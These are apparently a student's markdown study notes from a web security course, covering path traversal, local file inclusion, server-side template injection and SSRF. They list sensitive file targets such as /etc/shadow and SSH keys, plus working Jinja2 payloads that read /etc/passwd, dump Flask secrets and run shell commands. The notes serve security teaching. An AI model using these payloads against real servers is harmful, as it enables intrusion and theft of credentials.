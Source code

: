 # Week 5
- Local File Disclosure (LFD)
  - Path Traversal
  - `"/app/files" + "../../etc/passwd"` => `/etc/passwd`
  - Removing `../` is quite common: `....//` => `../`, `..././` => `../`
  - Interesting filepaths:
    ```
    # Relative Paths
    ./
    ../

    # Webserver Stuff
    .htaccess
    /var/log/apache2/{access, error}.log
    /etc/apache2/apache2.conf
    /etc/nginx/nginx.conf

    # App Stuff
    .git
    app.py
    /home/${user}
    ~/.ssh/id_rsa

    # Linux Stuff
    /proc/self/{environ, cmdline}
    /etc/{passwd, shadow}
    /etc/resolv.conf
    ```
- Local File Inclusion (LFI)
  - Including as in `#include 'filename'` (C) or `include 'filename';` (PHP).
  - PHP also has `require 'filename';` but that will crash (500) if the file does not exist.
  - Useful if you can upload a file and view it - check if you can execute it on the server.
    - Either by including it or making the server think it is executable.
    - Often this is just based on file extension, i.e. visiting a .php file results in executing it.
    - This is how CSE's websites typically work: https://cgi.cse.unsw.edu.au/~z5361056/acc.py (on CSE's servers = not in scope BTW).
      - .py file with correct permissions so therefore it gets run.
- Server-Side Template Injection (SSTI)
  - `{{ "hello " + "world" }}` => `"hello world"`
  - e.g. `{{ "".__class__.__mro__[1].__subclasses__() }}`
    - MRO = method resolution order (i.e. we will check these classes in this order for the methods you try run)
      - ```python
          class A(object):
              def __repr__(self):
                  return 'A'

          class B_one(A):
              def __repr__(self):
                  return 'B1'

          class B_two(A):
              def __repr__(self):
                  return 'B2'

          class C(B_one):
              def __repr__(self):
                  return 'C'

          A.__subclasses__()  # => [__main__.B_one, __main__.B_two]
          C.__mro__  # => (__main__.C, __main__.B_one, __main__.A, object)
      ```
  - Useful Payloads
    - Check for the vuln: `{{7*6}}`
    - Output Flask config (often includes DB credentials or session secret keys): `{{config}}`
    - Read file: `{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}`
    - Use code from a module (this example is also RCE): `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
  - TBH stole MRO example and most of these payloads from https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/
- Server Side Request Forgery (SSRF)
  - Any time you can get a server to send a request (usually HTTP(S), but sometimes DNS, FTP or whatever else).
  - e.g. A website where you can upload an image by giving it a URL rather than actually uploading a file.
    - The website will (typically) download the file from the URL, so it must send a request to it, which may give you more information (especially if it's something more interesting than an image upload).
  - Maybe your URL gets info attached to it, e.g. the server sends a request to `http://yoursite.com/<insert_data_here>` or to `http://<insert_data_here>.yoursite.com`.